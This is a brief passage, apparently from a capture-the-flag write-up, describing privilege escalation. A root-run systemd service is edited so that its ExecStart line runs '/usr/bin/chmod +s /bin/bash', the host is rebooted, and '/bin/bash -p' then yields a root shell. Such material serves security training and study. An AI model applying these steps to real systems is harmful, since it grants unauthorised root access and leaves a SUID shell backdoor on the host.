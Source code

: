 - Edit them to have root shell like:
	- Add the `/usr/bin/chmod +s /bin/bash`

```shell
[Unit]
Description=Zeno monitoring

[Service]
Type=simple
User=root
#ExecStart=/root/zeno-monitoring.py
ExecStart=/usr/bin/chmod +s /bin/bash

[Install]
WantedBy=multi-user.target
```

- Then reboot `sudo /usr/sbin/reboot`
- After this, execute `/bin/bash -p`
- Now you are **root**


